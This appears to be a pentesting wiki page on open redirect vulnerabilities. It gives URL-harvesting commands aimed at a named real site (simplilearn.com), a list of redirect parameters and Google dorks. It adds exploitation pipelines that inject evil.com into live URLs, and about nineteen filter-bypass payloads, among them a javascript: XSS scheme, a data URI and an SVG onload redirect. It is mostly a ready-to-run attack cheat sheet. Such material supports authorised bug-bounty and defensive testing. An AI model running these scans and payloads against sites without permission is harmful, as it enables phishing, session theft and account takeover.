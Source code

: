 # Open Redirect

An **Open Redirect vulnerability** arises when a web application redirects users to external URLs without properly validating the input.

**Impact:** _Open redirects can aid phishing by making malicious links look legitimate, leading to credential theft, session hijacking, or bypassing security—resulting in account takeover and data exposure._

## Exploitation Using Nuclei

{% code overflow="wrap" %}
```bash
cat domains.txt | nuclei -t ~/.local/nuclei-templates/coffinxp_nuclei_templates/openRedirect.yaml -c 30
```
{% endcode %}

## Manual

### Obtain a list of URLs

{% hint style="info" %}
Fetch subdomain list from our subdomain enumeration automation.&#x20;
{% endhint %}

{% code overflow="wrap" %}
```bash
#Collecting URLs for Open Redirect
#Method 1
 echo 'simplilearn.com' | gau | grep '^https://[^/]*\.simplilearn\.com' > gau_urls.txt

#Method 2
echo 'https://www.simplilearn.com' | hakrawler -d 3 --subs -t 30 | grep '^https://[^/]*\.simplilearn\.com' > hakrawler_urls.txt

#Method 3
 katana -list simplilearn/recon/sub_enum/combined.txt -d 5 -jc -jsl -c 30 | grep '^https://[^/]*\.simplilearn\.com' > katana_urls.txt
 
 #Method 4
 waybackurls 'simplilearn.com' | grep '^https://[^/]*\.simplilearn\.com' > wayback_urls.txt
 
 #Method 5
 paramspider -d 'simplilearn.com' -p -s 
```
{% endcode %}

### Extracting Potential OpenRedirect URLs from a list of URLs

{% code overflow="wrap" %}
```bash
#gf tool did the similar task if we do `gf redirect` but it is less efficient
cat target_url_list.txt | grep -Pi "returnUrl=|continue=|dest=|destination=|forward=|go=|goto=|login\?to=|login_url=|logout=|next=|next_page=|out=|g=|redi=|redirect=|redirect_to=|redirect_uri=|redirect_url=|return=|returnTo=|return_path=|return_to=|return_url=|rurl=|site=|target=|to=|uri=|qurl=|rit_url=|jump=|jump_url=|originUrl=|origin=|Url=|desturl=|u=|Redirect=|location=|ReturnUrl=|redirect_url=|redirect_to=|forward_to=|forward_url=|destination_url=|jump_to=|go_to=|goto_url=|target_url=|redirect_link=" | tee openredirect.txt
```
{% endcode %}

### Extracting Potential OpenRedirect URLs using google dorks

```bash
python3 dorking.py [coffinxp script]
```

**Google Dork**

{% code overflow="wrap" %}
```bash
site:target.com (inurl:url= | inurl:return= | inurl:next= | inurl:redirect= | inurl:redir= | inurl:ret= | inurl:r2= | inurl:page= | inurl:dest= | inurl:target= | inurl:redirect_uri= | inurl:redirect_url= | inurl:checkout_url= | inurl:continue= | inurl:return_path= | inurl:returnTo= | inurl:out= | inurl:go= | inurl:.login?to= | inurl:origin= | inurl:callback_url= | inurl:jump= | inurl:action_url= | inurl:forward= | inurl:src= | inurl:http | inurl:&)
```
{% endcode %}

### Exploiting OpenRedirectURLs collected from above

{% code overflow="wrap" %}
```bash
#Method1
cat openredirect.txt | uro | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com"

#Method2
#Make URLs loxs tool suitable
cat openredirect.txt | uro | sed 's/=.*/=/' > loxs.txt
python3 loxs.py (fed it with URLs [loxs.txt])

#Method3
cat openredirect.txt | while read url; do cat /opt/loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"

#Method4 (Not so effective but we can use)
ffuf -w redirect_params.txt:PARAM -w loxs/payloads/or.txt:PAYLOAD -u "https://site.com/bitrix/redirect.php?PARAM=payload" -mc 301,302,303,307,308 -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0" -x http://localip:8080 -t 10 -mr "Location: http://google.com"

#Method5 (Not so effective but we can use)
cat openredirect.txt | qsreplace "https://evil.com" | xargs -I {} curl -s -o /dev/null -w "%{url_effective} -> %{redirect_url}\n" {}
```
{% endcode %}

## Automation

* Python Tool by Faiyaz Ahmad: [https://github.com/faiyazahmad07/WEBSTER.git](https://github.com/faiyazahmad07/WEBSTER.git)&#x20;
* [https://github.com/devanshbatham/OpenRedireX](https://github.com/devanshbatham/OpenRedireX) (Tool by Devansh Bhatham)
* Nuclei Template: [https://github.com/coffinxp/nuclei-templates](https://github.com/coffinxp/nuclei-templates)
  * `cat domains.txt | nuclei -t ./openRedirect.yaml -c 30`
* [https://github.com/coffinxp/loxs](https://github.com/coffinxp/loxs)
  * Payloads available in `payloads/or.txt` in the same github repo.&#x20;

## High Level Manual Testing Techniques

**1. Simply Change the Domain**

```bash
?redirect=https://example.com → ?redirect=https://evil.com
```

**2. Bypass When Protocol is Blacklisted**

```bash
?redirect=https://example.com → ?redirect=//evil.com
```

**3. Bypass When Double Slash is Blacklisted**

```bash
?redirect=https://example.com → ?redirect=\\evil.com
```

**4. Bypass Using http: or https:**

```bash
?redirect=https://example.com → ?redirect=https:example.com
```

**5. Bypass Using %40 (At Symbol Encoding)**

```
?redirect=example.com → ?redirect=example.com%40evil.com
```

**6. Bypass if Only Checking for Domain Name**

```
?redirect=example.com → ?redirect=example.comevil.com
```

**7. Bypass Using Dot Encoding %2e**

```
?redirect=example.com → ?redirect=example.com%2eevil.com
```

**8. Bypass Using a Question Mark**

```
?redirect=example.com → ?redirect=evil.com?example.com
```

**9. Bypass Using Hash %23**

```
?redirect=example.com → ?redirect=evil.com%23example.com
```

**10. Bypass Using a Symbol**

```
?redirect=example.com → ?redirect=example.com/evil.com
```

**11. Bypass Using URL Encoded Chinese Dot %E3%80%82**

```
?redirect=example.com → ?redirect=evil.com%E3%80%82%23example.com
```

**12. Bypass Using a Null Byte %0d or %0a**

```
?redirect=/ → ?redirect=/%0d/evil.com
```

13\. Encoded URL Redirects

```
https://example.com/redirect?url=http%3A%2F%2Fmalicious.com
```

14\. Path-Based Redirects

```bash
https://example.com/redirect/http://malicious.com
```

15\. Data URI Redirects

```
https://example.com/redirect?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnVGhpcyBpcyBhbiBhdHRhY2snKTwvc2NyaXB0Pg==
```

16\. JavaScript Scheme Redirects

```
https://example.com/redirect?url=javascript:alert('XSS');//
```

17\. Open Redirect via HTTP Header

```makefile
Location: http://malicious.com
X-Forwarded-Host: evil.com
Refresh: 0; url=http://malicious.com
```

18\. **Path Traversal Hybrids**

```bash
/redirect?url=/../../https://evil.com
```

19\. **Using svg paylaod**

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg onload="window.location='https://evil.com/'" xmlns="http://www.w3.org/2000/svg"></svg
```
{% endcode %}
